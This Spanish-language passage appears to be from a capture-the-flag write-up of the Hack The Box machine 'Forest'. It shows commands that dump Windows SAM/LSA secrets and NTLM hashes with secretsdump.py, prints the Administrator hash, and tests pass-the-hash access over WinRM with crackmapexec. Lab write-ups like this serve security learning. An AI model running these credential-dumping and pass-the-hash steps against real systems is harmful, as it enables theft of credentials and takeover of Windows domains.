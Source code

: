 un volcado completo de los SAM/LSA Secrets, credenciales cacheadas, información sensible 

almacenada en el registro y los hashes NTLM del sistema.

[secretsdump.py]: https://thehackerway.com/2021/05/24/network-hacking-con-impacket-parte-3/#:~:text=Volcado%20de%20%C2%ABWindows%20Secrets%C2%BB%20con,los%20hashes%20NTLM%20del%20sistema.

![list](/assets/img/forest/Kali-2022-09-14-01-05-22.png){:.lead width="800" height="100" loading="lazy"}

```bash
secretsdump.py htb.locat/axel123@10.10.10.161
```

{:.note}
Nos muestra los secretos de la mayoria de todos los usuarios peor elque nos 

interesa en el de Administrator, con el cual podemos hacer pass de hash 

 `htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::` 

 para ingresar al usuario privilegiado de la siguiente manera.

{:.note}
Para hacer pass de hash solo nos interesa el ultimo tercio del hash de administrator.

![list](/assets/img/forest/Kali-2022-09-14-01-09-03.png){:.lead width="800" height="100" loading="lazy"}

```powershell
crackmapexec winrm 10.10.10.161 -u "Administrator" -H "32693b11e6aa90eb43d32c72a07ceea6"
```

{:.note}
Comprobamos si las credenciales son validas para EvilWinRM.

![list](/assets/img/forest/Kali-2022-09-14-01-12-58.png){:.lead width="800" height="100" loading="lazy"}


[ASREPRoast]: https://www.hackplayers.com/2020/11/asreproast-o-as-rep-roasting.html#:~:text=El%20ASREPRoast%20es%20una%20t%C3%A9cnica,requiere%20pre%2Dautenticaci%C3%B3n%20en%20kerberos.
[GetNPUsers.py]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py
[Kerberosting]: https://www.netwrix.com/cracking_kerberos_tgs_tickets_using_kerberoasting.html
